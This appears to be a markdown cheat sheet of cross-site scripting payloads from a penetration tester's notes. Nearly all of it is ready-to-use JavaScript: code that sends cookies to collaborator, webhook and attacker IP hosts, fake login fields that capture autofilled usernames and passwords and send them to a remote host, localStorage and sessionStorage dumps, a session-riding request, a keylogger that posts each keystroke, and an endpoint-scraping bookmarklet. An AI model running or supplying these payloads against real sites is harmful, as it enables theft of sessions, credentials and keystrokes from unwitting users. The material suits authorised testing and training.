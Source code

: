 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Payloads

{% hint style="info" %}
[XSS Filter Evasion Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html) (OWASP)
{% endhint %}

## Stealing Cookies

{% tabs %}
{% tab title="<img>" %}
```javascript
<img src="http://localhost?c='+document.cookie+'" />
```
{% endtab %}

{% tab title="fetch (1)" %}
```javascript
fetch("http://localhost?c="+document.cookie);
```
{% endtab %}

{% tab title="Collaborator" %}
```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', 
    {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
    });
</script>
```
{% endtab %}

{% tab title="Webhook" %}
{% code overflow="wrap" %}
```javascript
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}
{% endtab %}

{% tab title="external" %}
{% code title="xss.js" %}
```javascript
// save the value of the cookie in a variable
let cookie = document.cookie
// URL-encode the variable
let encodedCookie = encodeURIComponent(cookie)
// make a GET request to our attacker machine exfiltrating the cookie
fetch("http://192.168.45.214/exfil?data=" + encodedCookie)
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Autofilled Credentials

{% tabs %}
{% tab title="createForm.js" %}
{% code title="createForm.js" overflow="wrap" %}
```javascript
// create the input elements
let usernameField = document.createElement("input")
usernameField.type = "text"
usernameField.name = "username"
usernameField.id = "username"

let passwordField = document.createElement("input")
passwordField.type = "password"
passwordField.name = "password"
passwordField.id = "password"

// append the elements to the body of the page
document.body.appendChild(usernameField)
document.body.appendChild(passwordField)

// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)
setTimeout(function() {
 console.log("Username:", document.getElementById("username").value)
 console.log("Password:", document.getElementById("password").value)
}, 1000);
```
{% endcode %}
{% endtab %}

{% tab title="savedCreds.js" %}
{% code title="savedCreds.js" %}
```javascript
// save the body of the document into a var
let body = document.getElementsByTagName("body")[0]

// create the username element
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

// create the password element
var p = document.createElement("input");
p.type = "password";
u.style.position = "fixed";
//u.style.opacity = "0";

// append elements to the body
body.append(u)
body.append(p)

// set a GET request after a 5 second timeout
setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Local Secrets

{% tabs %}
{% tab title="Local Storage" %}
```javascript
let data = JSON.stringify(localStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}

{% tab title="Session Storage" %}
```javascript
let data = JSON.stringify(sessionStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}
{% endtabs %}

## Session Riding

{% tabs %}
{% tab title="XMLHttpRequest" %}
```javascript
let xhr = new XMLHttpRequest();
xhr.open('POST','http://localhost/updateprofile',true);
xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
xhr.send('email=updated@email.com’);
```
{% endtab %}
{% endtabs %}

## Keylogging

{% tabs %}
{% tab title="Log keypresses" %}
```javascript
document.onkeypress = function(e) {
 get = window.event ? event : e
 key = get.keyCode ? get.keyCode : get.charCode
 key = String.fromCharCode(key)
 console.log(key)
}
```
{% endtab %}

{% tab title="Fetch keypresses" %}
{% code title="keylogger.js" %}
```javascript
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key)
}
// for each keypress, execute the callback function
document.addEventListener('keydown', logKey);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Remote Resources

{% tabs %}
{% tab title="fetch" %}
```javascript
fetch('http://localhost/endpoint’)
```
{% endtab %}

{% tab title="<img>" %}
```javascript
<img src='http://localhost/file' />
<img src='x' onerror='http://localhost/file' />
<img src="x" onerror="window.location.href='http://localhost/file'">
```
{% endtab %}

{% tab title="<script>" %}
```javascript
<script src='http://localhost/file'></script>
```
{% endtab %}
{% endtabs %}

## Sorcery?

{% tabs %}
{% tab title="?" %}
{% code overflow="wrap" %}
```javascript
javascript:(function(){var scripts=document.getElementsByTagName("script"),regex=/(?<=("|'|`))/[a-zA-Z0-9_?&=/-#.]*(?=("|'|`))/g;const%20results=new%20Set;for(var%20i=0;i<scripts.length;i++){var%20t=scripts[i].src;""!=t&&fetch(t).then(function(t){return%20t.text()}).then(function(t){var%20e=t.matchAll(regex);for(let%20r%20of%20e)results.add(r[0])}).catch(function(t){console.log("An%20error%20occurred:%20",t)})}var%20pageContent=document.documentElement.outerHTML,matches=pageContent.matchAll(regex);for(const%20match%20of%20matches)results.add(match[0]);function%20writeResults(){results.forEach(function(t){document.write(t+"<br>")})}setTimeout(writeResults,3e3);})();
```
{% endcode %}
{% endtab %}
{% endtabs %}
